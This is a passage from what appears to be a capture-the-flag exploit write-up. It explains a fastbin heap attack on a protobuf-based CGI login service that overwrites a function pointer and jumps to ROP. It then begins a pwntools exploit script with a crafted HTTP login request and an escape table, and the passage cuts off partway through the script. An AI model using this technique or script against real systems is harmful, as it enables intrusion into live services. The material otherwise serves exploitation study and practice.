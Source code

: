 [![](assets/1706771580-c1dcd9378056d4658ea815805afdd80a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240130151309-05afcbcc-bf3f-1.png)

`fastbin attack` can be constructed in the above way. After that, you can use `fastbin attack` to modify the function pointer of the data segment, jump to ROP and finally complete the exploit (PS: The interesting point here is that if there is no function pointer stored in the data segment by protobuf, when Full RELRO is turned on, this vulnerability cannot be exploited.)

The complete exploit script is as follows:

```plain
#!/usr/bin/env python3
from pwn import *
context.arch = "amd64"
context.log_level = "debug"

# POST /cgi-bin/login.cgi HTTP/1.1
# Accept: application/json, */*
# Accept-Encoding: gzip, deflate
# Connection: keep-alive
# Content-Length: 171
# Content-Type: application/json
# Host: 192.168.64.135:8080
# User-Agent: HTTPie/1.0.3
# 
# {"data": "BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ", "timestamp": 61866, "data": "aaaa\u" aaaaaaaabaaaaaaacaaaaaaadaaaaaaa"}

blacklist_dict = {
    b"\b": b"\\b",
    b"\f": b"\\f",
    b"\n": b"\\n",
    b"\r": b"\\r",
    b"\t": b"\\t",
```